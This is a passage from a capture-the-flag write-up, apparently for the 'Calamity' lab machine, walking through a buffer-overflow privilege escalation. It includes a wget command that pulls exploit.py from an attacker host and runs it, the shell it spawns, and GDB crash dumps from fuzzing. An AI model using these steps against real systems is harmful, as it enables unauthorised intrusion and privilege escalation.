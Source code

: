 `[!]` Stop right there. We need to write our payload to a file before passing it to the program:
```
xalvas@calamity:/tmp$ wget http://10.10.14.12:8000/exploit.py 
<...>
2020-08-19 10:26:02 (71.1 MB/s) - 'exploit.py' saved [664/664]

xalvas@calamity:/tmp$ python exploit.py
```

`[*]` Now, we are ready:

```
Filename: /tmp/fuzz

process 24287 is executing new program: /bin/dash

<...>

$ id
`[New process 24491]`
process 24491 is executing new program: /usr/bin/id
Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".
uid=1000(xalvas) gid=1000(xalvas) groups=1000(xalvas),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

`[*]` But we are still isolated as **xalvas**, because we need to perform it without a debugger (debugger doesn't have a SUID bit set).

`[*]` PS: I see, that I can abuse lxd group, but that's not an intended way of solving this box.

`[*]` Let's say the exploit we've written just now is a **stage2**. And we need a **stage1** one. Restart GDB.

`====================`

```
gdb-peda$ pattern_create 30 fuzz
Writing pattern of 30 chars to filename "fuzz"

gdb-peda$ run
Starting program: /home/xalvas/app/goodluck 

Filename:  /tmp/fuzz

	-----MENU-----
1) leave message to admin
2) print session ID
3)login (admin only)
4)change user
5)exit

 action: 3

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x414142a9 
EBX: 0x41414241 ('ABAA')
ECX: 0xa ('\n')
EDX: 0xb7fcd87c --> 0x0 
ESI: 0xb7fcc000 --> 0x1b1db0 
EDI: 0xb7fcc000 --> 0x1b1db0 
EBP: 0xbffff648 --> 0x0 
ESP: 0xbffff620 --> 0x1 
EIP: 0x80000e6e (<main+247>:	mov    edx,DWORD PTR [eax+0xc])
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
<...>
```